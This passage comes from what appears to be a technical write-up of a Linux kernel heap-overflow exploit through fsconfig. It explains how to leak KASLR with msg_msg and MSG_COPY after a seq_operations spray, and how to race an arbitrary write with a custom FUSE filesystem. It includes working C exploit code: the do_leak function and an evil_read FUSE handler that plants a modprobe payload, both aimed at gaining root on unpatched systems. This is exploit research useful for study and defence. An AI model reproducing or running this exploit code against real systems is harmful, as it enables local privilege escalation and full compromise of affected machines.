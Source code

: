 To obtain a KASLR leak on general Linux distributions (again, if anything here sounds confusing, refer to the articles from D3v17 and me), we just need our legacy data chunk to be allocated right on top of a 4k msg_msg chunk chained with a kmalloc-32 `msg_msgseg` chunk. We can use our overflow to adjust the `msg_msg` size parameter and make it larger, and then use `MSG_COPY` to achieve an OOB leak. If we spray many `seq_operations` structure using the classic `open(“/proc/self/stat”, O_RDONLY)` trick, we will have a high likelihood of an OOB read leaking us the pointers within this structure, which will let us rebase the kernel and bypass KASLR.

Note that since we do not have heap leaks and that usercopy hardening does heap object bounds checking, we have to rely on `MSG_COPY`, which doesn’t unlink the `msg_msg` from its `msg_queue` (which would then utilize the linked list pointers in the first 0x10 bytes of `msg_msg` objects) and uses memcpy to transfer data to a new `msg_msg` structure before usercopying back.

This following snippet of code should accomplish a KASLR leak:

uint64_t do_leak () { uint64_t kbase = 0; char pat[0x1000] = {0}; char buffer[0x2000] = {0}, recieved[0x2000] = {0}; int targets[0x10] = {0}; msg *message = (msg *)buffer; int size = 0x1018; for (int i = 0; i < 8; i++) { memset(buffer, 0x41+i, sizeof(buffer)); targets[i] = make_queue(IPC_PRIVATE, 0666 | IPC_CREAT); send_msg(targets[i], message, size - 0x30, 0); } memset(pat, 0x42, sizeof(pat)); pat[sizeof(pat)-1] = '\x00'; puts("[*] Opening ext4 filesystem"); fd = fsopen("ext4", 0); if (fd < 0) { puts("fsopen: Remember to unshare"); exit(-1); } strcpy(pat, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"); for (int i = 0; i < 117; i++) { fsconfig(fd, FSCONFIG_SET_STRING, "\x00", pat, 0); } puts("[*] Overflowing..."); pat[21] = '\x00'; char evil[] = "\x60\x10"; fsconfig(fd, FSCONFIG_SET_STRING, "\x00", pat, 0); for (int i = 8; i < 0x10; i++) { memset(buffer, 0x41+i, sizeof(buffer)); targets[i] = make_queue(IPC_PRIVATE, 0666 | IPC_CREAT); send_msg(targets[i], message, size - 0x30, 0); } fsconfig(fd, FSCONFIG_SET_STRING, "\x00", evil, 0); puts("[*] Done heap overflow"); puts("[*] Spraying kmalloc-32"); for (int i = 0; i < 100; i++) { open("/proc/self/stat", O_RDONLY); } size = 0x1060; puts("[*] Attempting to recieve corrupted size and leak data"); for (int j = 0; j < 0x10; j++) {get_msg(targets[j], recieved, size, 0, IPC_NOWAIT | MSG_COPY | MSG_NOERROR); kbase = do_check_leak(recieved); if (kbase) { close(fd); return kbase; } } puts("[X] No leaks, trying again"); return 0; }

Now, we can perform the same arbitrary write technique D3v17 and I created. When you trigger the allocation of `msg_msg` and make a requested size require larger than 4096, we need to hang the usercopy when it copies to the first `msg_msg` chunk but before it traverses and usercopies to the `msg_msgseg` chunk. Previously, we did it with userfaultfd, but since unprivileged userfaultfd is disabled by default since 5.11, how can we reliably race this?

I went through this [slideshow](https://static.sched.com/hosted_files/lsseu2019/04/LSSEU2019%20-%20Exploiting%20race%20conditions%20on%20Linux.pdf) and the [FUSE technique](https://github.com/nrb547/kernel-exploitation/blob/main/cve-2021-32606/cve-2021-32606.md) caught my attention. The gist of it is that in Linux, users can communicate with /dev/fuse to create their own custom filesystem in userspace. You can create your own files in this userspace filesystem, map them in memory with mmap, have usercopy reach them when copying, and have your custom filesystem read handlers just hang or do anything else you want. Here is our custom FUSE filesystem’s handlers:

int evil_read(const char *path, char *buf, size_t size, off_t offset, struct fuse_file_info *fi) { char signal; char evil_buffer[0x1000]; memset(evil_buffer, 0x43, sizeof(evil_buffer)); char *evil = modprobe_win; memcpy((void *)(evil_buffer + 0x1000-0x30), evil, sizeof(evil)); size_t len = 0x1000; if (offset>= len) return size; if (offset + size> len) size = len - offset; memcpy(buf, evil_buffer + offset, size); read(fuse_pipes[0], &signal, 1); return size; }

There were two difficulties however with this FUSE race technique. Normally, as a normal unprivileged user, you need access to a suid /bin/fusermount binary. Performing the unshare which triggered our own user namespace’s creation would allow us to skip that requirement. Another issue is that a user would require libfuse libraries for libfuse functions to work, as libfuse is notoriously difficult to statically link, as seen [here](https://github.com/libfuse/libfuse/issues/383) because it specifically relies on `dl_open` for some extra features. We addressed this by removing all the references to `dl_open` and rebuilding the library. Static compilation then worked nicely and this technique would work on any system with `CONFIG_FUSE` enabled regardless of libfuse or fusermount availability.
